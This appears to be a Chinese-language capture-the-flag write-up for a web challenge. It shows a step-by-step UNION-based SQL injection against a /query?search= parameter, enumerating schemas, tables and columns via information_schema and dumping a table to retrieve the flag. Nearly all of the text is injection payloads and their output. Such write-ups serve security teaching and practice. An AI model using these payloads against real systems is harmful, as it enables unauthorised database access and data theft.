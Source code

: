 ![[Pasted image 20230212085901.png|500]]

```
/
```

![[Pasted image 20230212085944.png|700]]

点击左侧条目会发出请求

![[Pasted image 20230212090816.png|500]]

```
/query?search=<name>
```

通过访问`/query`路由能够获取到包含对应地区生物信息的`json`

尝试对`search`进行SQL注入

```
/query?search=amazonis_planitia union select 1, 2
```

![[Pasted image 20230212092806.png|300]]

```
/query?search=amazonis_planitia union select 1, database()
```

```
aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(schema_name) from information_schema.schemata
```

```
information_schema,alien_code,aliens
```

```
/query?search=amazonis_planitia union select 1, group_concat(table_name) from information_schema.tables where table_schema = 'alien_code'
```

```
code
```

```
/query?search=amazonis_planitia union select 1, group_concat(column_name) from information_schema.columns where table_name = 'code'
```

```
id,code
```

```
/query?search=amazonis_planitia union select 1, group_concat(id) from alien_code.code
```

```
0
```

```
/query?search=amazonis_planitia union select 1, group_concat(code) from alien_code.code
```

```
flag{481d123d-ab78-45f1-a82d-506efe39483a}
```

#Web #SQL注入 #联合注入 